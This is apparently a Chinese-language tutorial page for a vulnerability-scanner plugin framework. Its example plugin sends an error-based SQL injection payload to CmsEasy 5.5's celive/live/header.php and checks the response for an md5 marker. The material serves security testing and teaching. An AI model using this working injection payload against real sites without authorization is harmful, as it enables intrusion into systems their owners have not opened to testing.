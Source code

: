 # 编写插件
---

### 1. 编写

开发者在本地编写插件代码，以下为 [CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-070827) 的扫描插件。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# __author__ = 'Medici.Yan'
# 引入需要用到的标准库
import urllib

# assign 验证任务的指纹
def assign(service, arg):
    if service == fingerprint.cmseasy: # 指纹为 cmseasy
        return True, arg  # 返回类型为 tuple

# audit 审计函数，通过指纹验证后调用该函数
def audit(arg):
    # 此插件中 arg 为提交的网址
    # 构造要提交数据的目标 URL
    target = arg + '/celive/live/header.php'
    # 此漏洞要发送的 POST 数据(Payload)
    post_data = {
        'xajax': 'LiveMessage',
        'xajaxargs[0][name]': "1',(SELECT 1 FROM (select count(*),concat("
                              "floor(rand(0)*2),(select md5(233)))a from "
                              "information_schema.tables group by a)b),"
                              "'','','','1','127.0.0.1','2') #"
    }
    # 通过 hackhtt 发送 Payload 到目标
    code, head, body, redirect_url, log = hackhttp.http(
        target, post=urllib.urlencode(post_data))
    # 验证是否存在漏洞
    if 'e165421110ba03099a1c0393373c5b43' in body:
        # 存在漏洞则输出目标 URL
        security_hole(target, log=log)

# 本地测试时需要加 main 用于调用
if __name__ == '__main__':
    # 导入 sdk
    from dummy import *
    # 调用 audit 与 assign
    audit(assign(fingerprint.cmseasy, 'http://localhost/cmseasy/')[1])

```

**读者暂时无需关注插件编写具体内容，我们会在后面的章节中详细讲解如何编写。**

### 2. 测试

将编写好的插件保存，例如文件名叫 `demo.py`, 直接在终端下运行该文件。如果存在漏洞，则会终端上会有 [LOG] 信息输出。
